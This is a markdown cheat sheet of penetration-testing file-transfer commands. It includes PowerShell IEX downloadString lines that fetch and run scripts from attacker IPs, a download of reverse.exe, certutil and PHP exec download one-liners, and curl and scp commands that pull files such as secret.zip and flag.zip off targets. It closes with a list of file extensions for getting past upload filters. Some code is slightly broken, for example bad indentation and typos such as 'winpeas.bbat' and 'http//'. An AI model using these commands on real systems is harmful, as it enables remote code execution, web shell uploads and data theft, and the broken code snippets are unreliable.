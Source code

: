# Linux

wget http://IP:PORT/FILE
# python 
python -m SimpleHTTPServer
python3 -m http.server

## http sever saves POST request data

```python
#!/usr/bin/python 
import SimpleHTTPServer
import BaseHTTPServer class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler): 
def do_PUT(self):
	print self.headers
	length = int(self.headers["Content-Length"]) 
	path = self.translate_path(self.path) 
	with open(path, "wb") as dst: 
	    dst.write(self.rfile.read(length)) 

    
 if __name__ == '__main__': 
	SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```




# Windows 
```powershell
Powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/winpeas.bat')"

IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/winpeas.bat')

Invoke-WebRequest -Uri 10.10.16.4/winpeas.bbat -OutFile winpeas.bat

````


## Certutil
```bash
certutil -urlcache -f http://IP/FILE OUTPUTFILENAME
```


# php
```php
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.17.185/FILE_NAME','OUT_FILE_NAME')\""); ?>
```

```powershell
powershell Invoke-WebRequest -Uri http://10.10.16.4/winpeas.bat -OutFile winpeas.bat

powershell Invoke-WebRequest -Uri http://10.10.16.4/reverse.exe -OutFile ke.exe

```

# scp 
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:
SCP -i KEY FILE user@target:/tmp/FILE:
-i for ssh key
P - Specifies the remote host ssh port.
-p - Preserves files modification and access times.
-q - Use this option if you want to suppress the progress meter and non-error messages.
-C - This option forces scp to compresses the data as it is sent to the destination machine.
```bash
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:

scp charix@10.10.10.84:secret.zip . # getting secret.zip from charix usuer

```
# Curl
```bash
# Upload file with curl
curl DEST_IP --upload-file FILE
curl 192.77.184.2 --upload-file flag.zip
```





# FTP
python -m pyftpdlib 21
ftp 10.10.10.10




```
Invoke-WebRequest -Uri http//192.168.181.128/linPEAS.ps1 -OutFile
File C:\Users\administrator\Documents\WindowsPowerShell\Modules\Recon\adPEAS.ps1
```

# Extension evasion

**File Upload General Methodology**
Other useful extensions:
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, phar .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

  Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
Coldfusion: .cfm, .cfml, .cfc, .dbm
Flash: .swf
Perl: .pl, .cgi
Erlang Yaws Web Server: .yaws




 